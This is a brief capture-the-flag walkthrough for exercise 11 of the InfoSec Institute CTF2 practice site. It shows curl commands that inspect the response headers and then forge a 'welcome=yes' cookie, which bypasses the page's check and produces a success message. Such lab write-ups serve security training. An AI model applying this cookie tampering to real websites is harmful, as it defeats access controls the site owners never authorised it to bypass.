 # Bypassing blacklists

1.	It seems to be the same of [Level 9](./ex9.md). Anyway, let's take a look
	in the cookies

		$ curl -i -s http://ctf.infosecinstitute.com/ctf2/exercises/ex11.php | head -14
		HTTP/1.1 200 OK
		Date: Tue, 15 Sep 2015 09:03:06 GMT
		Server: Apache/2.4.7 (Ubuntu)
		X-Powered-By: PHP/5.5.9-1ubuntu4.6
		Set-Cookie: PHPSESSID=9f4hc8vgctariqhhndj94dqad7; path=/
		Expires: Thu, 19 Nov 1981 08:52:00 GMT
		Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
		Pragma: no-cache
		Set-Cookie: welcome=no; expires=Fri, 16-Oct-2015 09:03:06 GMT; Max-Age=2678400; path=/
		Vary: Accept-Encoding
		Content-Length: 4359
		Content-Type: text/html

	More then clear...

		$ curl -i --cookie "welcome=yes" http://ctf.infosecinstitute.com/ctf2/exercises/ex11.php
		[...]
		<div class="text-center col-md-4 col-md-offset-4 alert alert-success well well-lg">
			<h3 class="lead text-center">You did it again! Why did they blacklist you anyway?</h3>
		</div>
		[...]

[Go to Ex10](./ex10.md) | [Go to Ex12](./ex12.md)


